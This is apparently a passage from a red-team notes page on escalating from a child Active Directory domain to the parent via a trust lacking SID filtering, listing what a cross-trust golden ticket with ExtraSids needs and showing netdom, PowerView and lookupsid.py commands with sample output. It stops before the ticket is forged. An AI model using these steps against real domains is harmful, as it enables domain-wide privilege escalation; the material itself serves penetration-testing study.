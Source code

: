 Abusing Bidirectional ParentChild (`WITHIN_FOREST`) trust between **child.megacorp.local ⟷ megacorp.local**.

Check if SID filtering is enabled for a trust:

```
Cmd > netdom.exe trust child.megacorp.local /domain:megacorp.local /quarantine
SID filtering is not enabled for this trust. All SIDs presented in an
authentication request from this domain will be honored.
```



### Raise Child

- [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)
- [http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/](http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/)
- [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)
- [https://github.com/fortra/impacket/blob/master/examples/raiseChild.py](https://github.com/fortra/impacket/blob/master/examples/raiseChild.py)

For creating a cross-trust golden ticket (Golden Ticket + ExtraSid) we'll need:

1. Child domain FQDN (`child.megacorp.local`);
2. Name of the child domain's DC machine account and its RID (`DC01$`, `1337`);
3. SID of the child domain (`S-1-5-21-4266912945-3985045794-2943778634`);
4. SID of the parent domain (`S-1-5-21-2284550090-1208917427-1204316795`);
5. Compomised krbtgt hash from the child domain (`00ff00ff00ff00ff00ff00ff00ff00ff`);
6. ???
7. PROFIT.

**1.** Child domain FQDN:

```
PS > $env:userdnsdomain
CHILD.MEGACORP.LOCAL
```

**2.** Name of the child domain's DC machine account and its RID:

{% tabs %}
{% tab title="Windows" %}
```
PV2 > (Get-NetComputer -ComputerName DC01.child.megacorp.local -FullData | select ObjectSID).ObjectSID
PV3 > (Get-DomainComputer DC01.child.megacorp.local | select ObjectSID).ObjectSID
S-1-5-21-4266912945-3985045794-2943778634-1337
```
{% endtab %}
{% tab title="Linux" %}
```
$ lookupsid.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local | grep SidTypeUser | grep -i DC01
1337: MEGACORP\DC01$ (SidTypeUser)
```
{% endtab %}
{% endtabs %}
